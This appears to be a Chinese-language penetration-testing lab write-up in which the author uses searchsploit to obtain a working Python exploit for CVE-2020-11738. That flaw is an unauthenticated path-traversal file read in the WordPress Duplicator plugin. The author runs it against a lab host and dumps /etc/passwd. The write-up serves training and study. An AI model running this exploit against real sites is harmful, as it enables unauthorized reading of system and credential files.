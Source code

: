 ## Attacking a Public Machine
利用前面收集到的資訊來入侵 WEBSRV1
### Initial Foothold
#### 1. 查詢下載 exploit
查看 exploit
```
┌──(chw㉿CHW)-[~/beyond]
└─$ searchsploit -x 50420
# Exploit Title: Wordpress Plugin Duplicator 1.3.26 - Unauthenticated Arbitrary File Read
# Date: October 16, 2021
# Exploit Author: nam3lum
# Vendor Homepage: https://wordpress.org/plugins/duplicator/
# Software Link: https://downloads.wordpress.org/plugin/duplicator.1.3.26.zip]
# Version: 1.3.26
# Tested on: Ubuntu 16.04
# CVE : CVE-2020-11738

import requests as re
import sys

if len(sys.argv) != 3:
        print("Exploit made by nam3lum.")
        print("Usage: CVE-2020-11738.py http://192.168.168.167 /etc/passwd")
        exit()

arg = sys.argv[1]
file = sys.argv[2]

URL = arg + "/wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../../../../.." + file

output = re.get(url = URL)
print(output.text)
```
> Path Traversal

```
┌──(chw㉿CHW)-[~/beyond]
└─$ searchsploit -m 50420 
```
#### 2. 透過 exploit 利用漏洞
##### 2.1 讀取 `/etc/passwd`
```
┌──(chw㉿CHW)-[~/beyond]
└─$ python3 50420.py http://192.168.117.244 /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
offsec:x:1000:1000:offsec:/home/offsec:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
```